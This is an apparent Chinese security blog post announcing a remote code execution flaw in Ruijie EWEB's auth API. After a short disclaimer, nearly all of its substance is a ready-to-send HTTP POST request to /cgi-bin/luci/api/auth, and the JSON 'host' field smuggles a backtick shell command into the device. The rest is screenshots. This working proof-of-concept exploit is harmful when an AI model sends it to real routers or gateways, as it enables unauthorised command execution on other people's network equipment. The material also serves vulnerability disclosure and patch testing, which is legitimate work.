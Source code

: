 #  锐捷 EWEB auth 远程代码执行漏洞   
 HK安全小屋   2025-03-29 13:15  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI0ttM5lbOibia3icjVq89tJOJvasbvEtcDvpvbql2ibwmJlezdGajUo31aseBNWqxNz3SLWMjHz3bu6Ng/640?wx_fmt=png&from=appmsg "")  
```
POST /cgi-bin/luci/api/auth HTTP/1.1
Host: 192.168.131.88
Content-Type: application/jsonContent-Length: 56

{"method":"checkNet","params":{"host":"`id >test.txt`"}}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI0ttM5lbOibia3icjVq89tJOJvNIFicvOPo3FU9eg8lbo7YkcShJPtbGMag9bSTmIRhYx8f3MXNXhlS3Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI0ttM5lbOibia3icjVq89tJOJv42S1uN73TL0m1v5FtSyxIjIzsibsibicicDuXa2HoCiak0w8UrkrQ03lllA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
